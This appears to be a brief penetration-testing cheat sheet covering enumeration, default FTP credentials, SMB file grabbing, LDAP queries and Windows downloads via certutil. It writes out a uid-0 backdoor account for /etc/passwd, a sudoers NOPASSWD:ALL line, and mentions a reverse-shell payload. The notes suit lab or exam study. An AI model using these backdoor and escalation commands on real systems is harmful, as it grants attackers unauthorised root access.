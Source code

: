 1. Enumeration
  nmap port scan
  Common ports
  FTP
    Anonymous Login?
    Common Credentials? admin/admin
    
    
   smbclient get all files:
   recurse (toggles recursive mode)
   prompt (toggles Y/N requests)
   mget *
  
  Creating password hashes for /etc/passwd  or /etc/shadow
  
  ```
  openssl passwd -6 -salt xyz  yourpass
  -1 MD5
  -5 SHA256
  -6 SHA512
  ```  
  Sample root2:testing user for /etc/passwd
  ```
  root2:KWi2XW05LmkMg:0:0:root:/root:/bin/bash
  ```
Adding user to suoders file
```
user     ALL=(ALL:ALL) NOPASSWD:ALL
``` 
## Command Line 
### Linux  

### Windows  
"Grep" function in Windows  
`findstr /I "<string>"` 

Query LDAP for users
`ldapsearch -H ldap://[IP]:[Port] -x -LLL -s sub -b "dc=<dcname>,dc=<dcname>"`

Downloading from Windows Command line  
`certutil.exe -urlcache -f http://target/remotefile localfile`

### Notes  

- when generating a shell on windows, use windows/shell_reverse_tcp
